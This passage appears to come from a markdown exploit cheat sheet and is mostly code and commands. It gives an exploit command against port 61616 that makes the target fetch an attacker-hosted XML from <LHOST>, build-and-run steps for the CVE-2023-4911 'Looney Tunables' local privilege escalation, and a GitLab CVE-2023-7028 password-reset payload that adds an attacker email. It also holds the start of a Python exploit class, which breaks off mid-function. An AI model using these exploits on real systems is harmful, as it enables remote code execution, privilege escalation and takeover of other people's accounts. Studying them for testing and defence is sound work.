 ```xml
```

```console
$ go run main.go -i <RHOST> -p 61616 -u http://<LHOST>/poc-linux.xml
```

## CVE-2023-4911: Looney Tunables LPE

> https://github.com/leesh3288/CVE-2023-4911

```console
$ python3 gen_libc.py 
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

```console
$ gcc -o exp exp.c
$ ./exp
```

## CVE-2023-7028: GitLab Account Takeover

> https://github.com/V1lu0/CVE-2023-7028

> https://github.com/Vozec/CVE-2023-7028

### PoC

```console
user[email][]=valid@email.com&user[email][]=attacker@email.com
```

### Modified PoC from TryHackMe

```python
import requests
import argparse
from urllib.parse import urlparse, urlencode
from random import choice
from time import sleep
import re
requests.packages.urllib3.disable_warnings()

class CVE_2023_7028:
    def __init__(self, url, target, evil=None):
        self.use_temp_mail = False
        self.url = urlparse(url)
        self.target = target
        self.evil = evil
        self.s = requests.session()

    def get_csrf_token(self):
        try:
            print('[DEBUG] Getting authenticity_token ...')
            html = self.s.get(f'{self.url.scheme}://{self.url.netloc}/users/password/new', verify=False).text
            regex = r'<meta name="csrf-token" content="(.*?)" />'
            token = re.findall(regex, html)[0]
            print(f'[DEBUG] authenticity_token = {token}')
            return token
        except Exception:
            print('[DEBUG] Failed ... quitting')
```